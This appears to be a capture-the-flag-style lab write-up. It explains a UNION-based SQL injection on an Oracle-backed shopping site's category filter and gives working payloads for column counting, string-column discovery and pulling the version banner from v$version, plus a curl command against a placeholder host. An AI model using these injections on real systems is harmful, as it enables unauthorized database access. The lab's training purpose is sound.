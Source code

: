 # SQL injection attack, querying the database type and version on Oracle — Practitioner

**Status:** Solved

---

## Goal

Exploit a SQL injection vulnerability to determine the database version. This lab uses an Oracle database, and you need to display the database version string.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Test for SQL injection**
   - Try basic injection:
```
   /filter?category=Gifts'
```
   - You should get an error or unusual behavior

3. **Determine the number of columns**
   - Oracle requires a FROM clause, so we use `UNION SELECT` with `FROM dual`
   - Try different column counts:
```
   Gifts' UNION SELECT NULL FROM dual--
   Gifts' UNION SELECT NULL,NULL FROM dual--
```
   - Keep adding NULLs until the error disappears
   - Let's say it works with 2 columns

4. **Find string-compatible columns**
   - Replace NULL with string to find which columns accept text:
```
   Gifts' UNION SELECT 'abc',NULL FROM dual--
   Gifts' UNION SELECT NULL,'abc' FROM dual--
```
   - Find which positions display strings without errors

5. **Extract Oracle version**
   - Use Oracle's version query `banner` from `v$version`:
```
   Gifts' UNION SELECT banner,NULL FROM v$version--
```
   - Or if both columns need strings:
```
   Gifts' UNION SELECT banner,'abc' FROM v$version--
```

6. **Execute the injection**
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+banner,NULL+FROM+v$version--"
```

7. **Verify success**
   - The database version will be displayed on the page
   - You'll see something like "Oracle Database 11g Enterprise Edition..."
   - Lab automatically solves once version is displayed

---

## Example

- Vulnerable endpoint: `GET /filter?category=Gifts`
- Column enumeration:
```
Gifts' UNION SELECT NULL,NULL FROM dual--
```
- Final payload:
```bash
curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+banner,NULL+FROM+v$version--"
```

---

## Oracle-specific notes

- **FROM dual**: Oracle requires a FROM clause in SELECT statements. `dual` is a dummy table with one row
- **v$version**: Oracle system view that contains version information
- **banner column**: Contains the version string in human-readable format
- Always use `--` for comments (some Oracle versions don't support `#`)

---

## Why this works

The UNION operator combines results from two SELECT statements. By determining the correct number of columns and data types, we can inject our own SELECT statement that queries system tables like `v$version`. Oracle's `dual` table is perfect for this because it always exists and returns exactly one row, making it ideal for injecting arbitrary queries.

---

